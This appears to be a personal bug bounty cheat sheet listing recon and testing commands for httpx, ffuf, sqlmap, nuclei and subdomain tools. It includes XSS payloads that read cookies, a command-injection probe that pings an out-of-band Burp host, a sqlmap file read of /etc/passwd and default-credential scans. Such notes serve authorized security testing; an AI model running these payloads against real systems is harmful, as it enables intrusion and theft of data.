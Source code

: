 # Bug Bounty Personal Tips

## Recon 

##### shodan
`http.favicon.hash:123456789`

## HTTPX 

`/home/kali/go/bin/httpx -l FC -ss -srd /media/sf_Test/FC/screenshots/ --title --status-code -o /media/sf_Test/FC_httpx.txt `

`/home/kali/go/bin/httpx -l FC -proxy http://192.168.0.131:1337 `

```
/home/kali/go/bin/httpx -l CHANGEME \
    -p 80,81,443,591,593,832,981,1010,1311,2082,2087,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5800,6543,7000,7396,7474,8000,8001,8008,8014,8042,8069,8080,8081,8088,8090,8091,8118,8123,8172,8222,8243,8280,8281,8333,8443,8500,8834,8880,8888,8983,9000,9043,9060,9080,9090,9091,9200,9443,9800,9981,12443,16080,18091,18092,20720,28017,11443 \
    -sc -follow-redirects --title -ss -favicon \
    -srd /media/sf_Test/CHANGEME/screenshots/ \
    -o /media/sf_Test/CHANGEME/CHANGEME_httpx.txt \
    -proxy http://192.168.0.131:1337
```

## FUZZ 

```
ffuf -w /media/sf_Test/_CHANGEME/CHANGEME.txt:DOMAINSFUZZ \
     -w /media/sf_Test/https.txt:SCHEMEFUZZ \
     -w /media/sf_Test/filesoptmized.txt:FILESFUZZ \
     -u "SCHEMEFUZZ://DOMAINSFUZZ/FILESFUZZ" -x "http://192.168.0.131:1337" -t 500
```

## XSS
`  : /"><script>alert(document.cookie)</script> `

` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E `

## SSRF 
` galletita ; ping -c 1 burp.oastify.com `

## SQLMAP

`sqlmap -u "http://X/dashboard/dashboard.php" --file-read="/etc/passwd"`

### OTHERS
` assetfinder X.com | tee -a /tmp/X.txt`

` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt `

`  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337`

` subfinder -d X | /home/kali/go/bin/httpx -u -status-code -title -tech-detect -follow-redirects -timeout 5 `

` site:*.com.ar "bug bounty" OR "vulnerability disclosure" OR "security policy" `

